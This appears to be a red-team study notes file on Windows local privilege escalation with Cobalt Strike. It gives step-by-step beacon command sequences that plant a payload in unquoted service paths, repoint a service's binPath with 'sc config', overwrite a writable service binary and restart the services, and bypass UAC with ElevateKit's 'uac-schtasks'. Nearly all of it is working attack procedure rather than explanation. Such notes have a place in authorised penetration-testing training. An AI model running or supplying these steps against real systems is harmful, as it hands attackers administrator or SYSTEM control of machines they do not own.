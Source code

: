 # Host Privilege Escalation Notes

**Windows Services**

Query services
```
sc query
Get-Service | f1
```

Things of interest
1. Binary Path
2. Startup Type
3. Service Status
4. Log on As
5. Dependants and Dependencies

**Unquoted Service Paths**

Get all services and their path
```
run wmic service get name, pathname
```

Check the ACL's of those objects
```
powershell Get-Acl -Path "C:\path\to\service" | f1
```

Using SharpUp
```
execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath
```

***Abusing***

If you have services that are named like Service 1.exe and not quoted we can abuse this by placing a Service.exe beacon in this file path which allows us to abuse it. Could also be the file path name to like *C:\Here is\Service 1.exe* we can drop a *C:\Here.exe* if we have permissions to abuse.
```
cd C:\Program Files\Vulnerable Services
ls
upload C:\Payloads\tcp-local_x64.svc.exe
mv tcp-local_x64.svc.exe Service.exe
ls
run sc stop VulnService1
run sc start VulnService1
```


**Weak Service Permissions**

Check for modifiable services
```
execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices
```

Checking ACL of that service with [this](https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/)
```
powershell-import C:\Tools\Get-ServiceAcl.ps1
powershell Get-ServiceAcl -Name VulnService2 | select -expand Access
```

We want ChangeConfig to be able to change the binpath and Start and Stop privs to be able to abuse easily

validating the current path and changing it 
```
run sc qc VulnService2
mkdir C:\Temp
cd C:\Temp
upload C:\Payloads\tcp-local_x64.svc.exe
run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe
run sc qc VulnService2
run sc stop VulnService2
run sc start VulnService2
```


**Weak Service Binary Permissions**

This time the binary itself is able to be overwritten, checking for it's permissions. Make sure to download to keep as backup just in case. Also turn off the service before doing this, otherwise you will get helpmessage 32
```
powershell Get-Acl -Path "C:\Program Files\Vulnerable Services\Service 3.exe" | f1
download Service 3.exe
copy "tcp-local_x64.svc.exe" "Service 3.exe"
run sc stop VulnService3
upload C:\Payload\Service 3.exe
run sc start VulnService3
```

**UAC Bypasses**

Check for UAC, *medium mandatory* means UAC in this case
```
whoami /groups
```

beacon can get around this by using the [Elevate Kit](https://github.com/cobalt-strike/ElevateKit) which you should load into your Cobalt Strike for use
```
elevate uac-schtasks tcp-local
```
